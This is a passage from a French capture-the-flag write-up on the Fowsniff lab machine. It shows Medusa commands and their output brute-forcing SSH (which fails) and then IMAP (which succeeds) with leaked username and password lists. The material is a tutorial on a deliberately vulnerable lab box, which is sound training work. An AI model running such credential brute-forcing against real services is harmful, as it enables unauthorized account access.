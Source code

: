 Plutôt que de tester toutes les combinaisons à la main, l'outil [__Medusa__](http://foofus.net/goons/jmk/medusa/medusa.html) arrive à la rescousse ! Soit soixante-quatre combinaisons possibles à tester... c'est vrai, après tout, pourquoi les employés ne partageraient-ils pas leurs mots de passe entre eux ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
--snip--
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: carp4ever (6 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: orlando12 (7 of 8 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.56.101 (1 of 1, 0 complete) User: sciana (8 of 8, 7 complete) Password: 07011972 (8 of 8 complete)
```

Un coup dans l'eau pour SSH. Quid du serveur de messagerie ?

```console
root@blinils:~# medusa -h 192.168.56.101 -U fowsniff.users -P fowsniff.passwords -M imap
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: bilbo101 (2 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: apples01 (3 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mauer (1 of 8, 0 complete) Password: scoobydoo2 (5 of 8 complete)
--snip--
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: skyler22 (4 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: seina (5 of 8, 4 complete) Password: scoobydoo2 (5 of 8 complete)
ACCOUNT FOUND: [imap] Host: 192.168.56.101 User: seina Password: scoobydoo2 [SUCCESS]
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: mailcall (1 of 8 complete)
ACCOUNT CHECK: [imap] Host: 192.168.56.101 (1 of 1, 0 complete) User: mursten (6 of 8, 5 complete) Password: bilbo101 (2 of 8 complete)
--snip--
```
